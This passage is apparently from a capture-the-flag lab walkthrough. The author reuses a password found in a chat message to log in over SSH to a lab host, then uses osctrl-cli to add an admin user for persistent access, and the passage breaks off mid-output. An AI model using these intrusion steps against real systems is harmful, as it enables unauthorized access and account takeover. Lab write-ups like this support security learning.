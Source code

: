 And we can access to another ```cells``` called ```osquery```

Browsing on the site, we will be able to find a password ```Te...ei``` in a message :

```
@Kara: I added this room to share scripts, outputs, documents for our osquery project and already added some documents.
Also, as discussed I created the provision user on os.control.vl with password REDACTED so we can start using your temporary provisioning solution on the first servers for testing.
```
Using ```provision;THE_PASS_IN_THE_MESSAGE```, we will be able to login in ssh :

```bash
nxc ssh 10.10.130.230 -u provision -p 'REDACTED'
SSH         10.10.168.230   22     10.10.168.230    [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.1
SSH         10.10.168.230   22     10.10.168.230    [+] provision:REDACTED  Linux - Shell access!
```
After some research on the machine we can find this :

## Access to Osctrl

```bash
provision@os:/opt/osctrl$ pwd
/opt/osctrl

provision@os:/opt/osctrl$ ls -la
drwxr-xr-x 7 root   root       4096 Jun 30  2023 .
drwxr-xr-x 4 root   root       4096 Jun 30  2023 ..
drwxr-xr-x 2 osctrl osctrl     4096 Jun 30  2023 carved_files
drwxr-xr-x 2 root   root       4096 Jun 30  2023 config
drwxr-xr-x 2 root   root       4096 Jun 30  2023 data
-rwxr-xr-x 1 root   root   30599208 Jun 30  2023 osctrl-admin
-rwxr-xr-x 1 root   root   21633169 Jun 30  2023 osctrl-api
-rwxr-xr-x 1 root   root   20288904 Jun 30  2023 osctrl-cli
-rwxr-xr-x 1 root   root   34890829 Jun 30  2023 osctrl-tls
drwxr-xr-x 6 root   root       4096 Jun 30  2023 static
drwxr-xr-x 3 root   root       4096 Jun 30  2023 tmpl_admin
```
[Usage of osctrl-cli](https://osctrl.net/usage/osctrl-cli/)

With ```osctrl-cli``` we will be able to create a new user with admin rights, first list users to retrieve the ```Default Environment```

```bash
provision@os:/opt/osctrl$ /opt/osctrl/osctrl-cli -d -D /opt/osctrl/config/db.json user l
```
And add a new user : 

```bash
provision@os:/opt/osctrl$ /opt/osctrl/osctrl-cli -d -D /opt/osctrl/config/db.json user a --username toto --password toto --admin --environment '06db90ca-cdf6-4735-928c-17654a398aa3'

✅ created user toto successfully

# and list users again

provision@os:/opt/osctrl$ /opt/osctrl/osctrl-cli -d -D /opt/osctrl/config/db.json user l
Existing users (2):
+----------+----------+--------+--------------------------------------+----------------+--------------------------------+
| USERNAME | FULLNAME | ADMIN? |         DEFAULT ENVIRONMENT          | LAST IPADDRESS |         LAST USERAGENT         |
+----------+----------+--------+--------------------------------------+----------------+--------------------------------+
| admin    | Admin    | True   | 06db90ca-cdf6-4735-928c-17654a398aa3 | 10.211.55.2    | Mozilla/5.0 (Macintosh;        |
|          |          |        |                                      |                | Intel Mac OS X 10_15_7)        |
```